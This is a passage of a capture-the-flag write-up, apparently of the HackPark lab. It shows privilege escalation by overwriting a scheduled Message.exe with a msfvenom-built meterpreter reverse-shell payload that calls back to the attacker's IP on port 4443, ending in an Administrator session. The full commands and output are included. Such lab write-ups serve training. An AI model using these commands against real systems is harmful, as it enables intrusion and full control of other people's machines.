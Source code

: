 ```powershell
11/18/20 14:58:33,Process Ended. PID:1976,ExitCode:4,Message.exe (Administrator)
11/18/20 14:59:01,Event Started Ok, (Administrator)
11/18/20 14:59:34,Process Ended. PID:2820,ExitCode:4,Message.exe (Administrator)
11/18/20 15:00:01,Event Started Ok, (Administrator)
11/18/20 15:00:33,Process Ended. PID:980,ExitCode:4,Message.exe (Administrator)
11/18/20 15:01:01,Event Started Ok, (Administrator)
11/18/20 15:01:33,Process Ended. PID:1340,ExitCode:4,Message.exe (Administrator)
11/18/20 15:02:01,Event Started Ok, (Administrator)
```

I generated a new binary called Message.exe that included a meterpreter payload that connected back to port 4443 and started a second listener on this port

```bash
root@kali:~/ctf/transfer# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.7.59 LPORT=4443 -f exe -o Message.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload                                                                                                            
No encoder specified, outputting raw payload                                                                                                                          
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: Message.exe%
```

```bash
meterpreter > cd ../
meterpreter > upload /root/ctf/transfer/Message.exe 
[*] uploading  : /root/ctf/transfer/Message.exe -> Message.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/ctf/transfer/Message.exe -> Message.exe
[*] uploaded   : /root/ctf/transfer/Message.exe -> Message.exe
meterpreter > 
[*] Sending stage (176195 bytes) to 10.10.167.66
[*] Meterpreter session 2 opened (10.10.7.59:4443 -> 10.10.167.66:49273) at 2020-11-18 23:09:00 +0000

meterpreter > backgoround 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  1         meterpreter x64/windows  IIS APPPOOL\Blog @ HACKPARK        10.10.7.59:4444 -> 10.10.167.66:49250 (10.10.167.66)
  2         meterpreter x86/windows  HACKPARK\Administrator @ HACKPARK  10.10.7.59:4443 -> 10.10.167.66:49273 (10.10.167.66)

msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getpid
Current pid: 1260
meterpreter > getuid
Server username: HACKPARK\Administrator
```
